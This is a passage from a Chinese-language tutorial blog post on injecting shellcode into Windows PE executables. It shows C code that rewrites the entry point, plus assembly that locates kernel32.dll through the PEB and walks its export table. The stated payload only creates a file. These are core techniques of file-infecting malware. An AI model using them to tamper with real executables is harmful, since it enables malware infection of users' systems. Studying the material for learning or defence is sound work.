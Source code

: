 ```
    IMAGE_NT_HEADERS ntHeader;
    fread(&ntHeader, 1, sizeof ntHeader, fp);
    fseek(fp, offsetPeHeader, SEEK_SET);
    DWORD old_entry;
    old_entry = ntHeader.OptionalHeader.AddressOfEntryPoint;
    ntHeader.OptionalHeader.AddressOfEntryPoint = entry;
    DWORD offset;
    offset = entry - old_entry;
    fwrite(&ntHeader, sizeof(ntHeader), 1, fp);
    fclose(fp);
    return offset;
}
```

## 编写shellcode
shellcode使用汇编写，由于我太菜了汇编能力低下，这里就参考了《0day安全_软件漏洞分析技术(第二版)》的代码。
因为我们是要创建一个文件，所以需要用到的函数只有kernel32.dll的CreateFileA函数，由此，我们的shellcode编写的步骤如下。

### 获取kernel32.dll基址并读引入表以获得想要的函数
首先我们需要获得kernel32.dll的位置，所有的win32程序都会加载ntdll.dll和kernel32.dll，进行以下步骤。
通过段选择字FS在内存中找到当前的线程环境块TEB
TEB偏移0x30的地方存着指向进程环境块PEB的指针
PEB偏移位置为0x0C的地方存放着PEB_LDR_DATA的指针，PEB_LDR_DATA结构体中存放着已经被进程装载的动态链接库信息，
PEB_LDR_DATA结构体偏移位置为0x1C指向模块初始化链表的头指针InInitializationOrderModuleList
InInitializationOrderModuleList中按照顺序存放和PE装入运行时初始化模块的信息，第一个链表结构是ntdll.dll，第二个节点就是kernel32.dll
kernel32.dll的节点偏移0x08就是kernel32.dll在内存中的加载基址
kernel32.dll的加载基址偏移0x3C就是kernel32.dll的PE头
PE头偏移0x78的地方存着指向函数导出表的指针
导出表偏移0x1C指向存储导出函数RVA的列表（IAT）
导出表偏移0x20指向存储导出函数名的列表（INT）
函数的RVA地址和名字按顺序存在这两个表中，我们可以在名称列表中定位到所需的函数的下标，然后在地址表里找到对应的RVA。
又由于我们已经得到了动态加载库的加载基址，就获得了所需API在内存中的虚拟地址。


#### 获取kernel32.dll的基地址
```
    mov ebx, fs:[edx + 0x30]    ; ebx = address of PEB 
    mov ecx, [ebx + 0x0c]       ; ecx = pointer to loader data 
    mov ecx, [ecx + 0x1c]       ; ecx = first entry in initialisation order list 
    mov ecx, [ecx]              ; ecx = second entry in list (kernel32.dll) 
    mov ebp, [ecx + 0x08]       ; ebp = base address of kernel32.dll 
```


#### 读取kernel32.dll的引入表
```
    lodsd                       ; load next hash into al and increment esi 
    pushad                      ; preserve registers 
    mov eax, [ebp + 0x3c]       ; eax = start of PE header 
    mov ecx, [ebp + eax + 0x78] ; ecx = relative offset of export table 
    add ecx, ebp                ; ecx = absolute addr of export table 
    mov ebx, [ecx + 0x20]       ; ebx = relative offset of names table 
    add ebx, ebp                ; ebx = absolute addr of names table 
    xor edi, edi                ; edi will count through the functions 
```
